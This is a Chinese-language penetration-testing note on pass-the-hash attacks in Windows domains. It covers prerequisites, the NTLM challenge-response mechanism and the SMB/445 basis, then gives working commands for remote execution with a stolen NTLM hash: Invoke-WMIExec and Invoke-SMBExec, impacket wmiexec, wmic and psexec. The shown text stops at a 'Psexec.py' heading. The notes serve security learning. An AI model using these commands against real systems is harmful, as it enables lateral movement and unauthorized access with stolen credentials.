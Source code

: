 **攻击必要条件**

- 哈希传递需要被认证的主机能够访问到服务器
- 哈希传递需要被传递认证的用户名
- 哈希传递需要被传递认证用户的 NTLM Hash

**攻击方式**

通常来说，pass-the-hash 的攻击模式是这样的：
1. 获取一台域主机高权限
2. 利用 mimikatz 等工具导出密码 hash
3. 用导出的 hash 尝试登录其他域主机

要完成一个 NTLM 认证，第一步需要客户端将自己要参与认证的用户名发送至服务器端，等待服务器端给出的 Challenge⋯⋯,其实哈希传递就是使用用户名对应的 NTLM Hash 将服务器给出的 Chanllenge 加密，生成一个 Response，来完成认证。

Pass The Hash 能够完成一个不需要输入密码的 NTLM 协议认证流程，所以不算是一个漏洞，算是一个技巧。

比如 SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

- mimikatz

    mimikatz 的 PTH 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#pth)

- wmiexec
    - [Invoke-WMIExec](https://github.com/Kevin-Robertson/Invoke-TheHash)
        ```
        Invoke-Module Invoke-TheHash.psd1
        Invoke-WMIExec -Target 192.168.1.1 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        Invoke-SMBExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        ```

    - [wmiexec](https://github.com/maaaaz/impacket-examples-windows)
        ```
        wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.1.1 "whoami"
        ```

- WMIC
    ```cmd
    wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
    ```

- PStools
    ```cmd
    psexec.exe \\ip -accepteula -u username -p password program.exe
    ```

    ```
    psexec \\ip -u user -p passwd cmd /c dir D:\
    ```

- [impacket](https://github.com/SecureAuthCorp/impacket)
    ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd impacket/examples
    ```
    - Psexec.py
